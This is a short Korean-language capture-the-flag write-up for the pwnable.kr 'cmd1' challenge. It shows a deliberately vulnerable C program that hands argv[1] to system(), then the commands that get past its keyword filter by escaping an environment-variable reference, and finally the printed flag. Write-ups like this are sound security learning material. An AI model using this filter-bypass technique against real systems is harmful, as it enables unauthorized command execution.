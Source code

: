 * environment variable을 이용해서 푸는 문제다

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "flag")!=0;
        r += strstr(cmd, "sh")!=0;
        r += strstr(cmd, "tmp")!=0;
        return r;
}

int main(int argc, char* argv[], char** envp){
        putenv("PATH=/thankyouverymuch");
        if(filter(argv[1])) return 0;
        system( argv[1] );
        return 0;
}
```

putenv("PATH=/thankyouverymuch") 이 부분때문에 PATH environment variable이 없어짐. 따라서 명령어를 그냥 쓰면 안된다.

main에서 argv[1]을 받아 이를 system으로 실행시켜주는데, filter에서 볼수 있듯 flag, sh, tmp가 argv[1]의 일부면 실행이 안된다

그래서 environment variable을 export하고 실행시켜봤는데 이렇게 해도 안되었다

~~~
cmd1@pwnable:~$ export qqq=flag
cmd1@pwnable:~$ ./cmd1 "/bin/cat $qqq"
~~~

보니까 저렇게 하면 넘어가는 argv[1]으로 넘어간 시점에서 qqq가 이미 flag로 바뀌는것 같았다.

내가 원하는건 argv[1]으로 넘어가서 최종적으로 system의 arg가 되는 string이 "/bin/cat $qqq"가 되는것이니까 $qqq에 이런저런걸 실험해 봤다. 최종적으로 이렇게 하니 되는걸 확인할 수 있었다.

~~~
cmd1@pwnable:~$ ./cmd1 "/bin/cat \$qqq"
mommy now I get what PATH environment is for :)
~~~